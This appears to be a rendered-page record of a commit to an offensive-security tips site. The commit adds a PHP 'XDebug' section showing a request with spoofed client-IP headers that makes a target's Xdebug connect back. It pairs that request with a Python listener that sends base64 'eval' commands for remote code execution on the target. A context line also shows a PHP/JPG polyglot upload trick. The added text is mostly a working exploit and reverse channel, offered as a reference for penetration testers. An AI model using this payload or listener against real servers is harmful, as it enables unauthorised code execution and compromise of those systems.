

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/php.md, in a window 1280 px wide and 1400 px high, scrolled down 2826 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add PHP Xdebug tips Add PHP Xdebug tips

````diff
--- a/docs/php.md
+++ b/docs/php.md
@@ -172,3 +172,34 @@ payload. So the easiest way is to append to a valid file our payload:
 ```bash
 cat valid.jpg payload.php > polyglot.php.jpg
 ```
+
+
+## XDebug
+
+Make a request with the following parameters and header:
+
+```http
+GET /path/to/file.php?XDEBUG_SESSION_START=phpstorm HTTP/1.1
+...
+X-Forwarded-For: {YOUR_IP}
+HTTP_CLIENT_IP: {YOUR_IP}
+```
+
+Then on your server execute the following python script:
+
+```python
+#!/usr/bin/python2
+import socket
+
+ip_port = ('0.0.0.0', 9000)
+sk = socket.socket()
+sk.bind(ip_port)
+sk.listen(10)
+conn, addr = sk.accept()
+
+while True:
+  client_data = conn.recv(1024)
+  print(client_data)
+  data = raw_input('>> ')
+  conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
+```
````
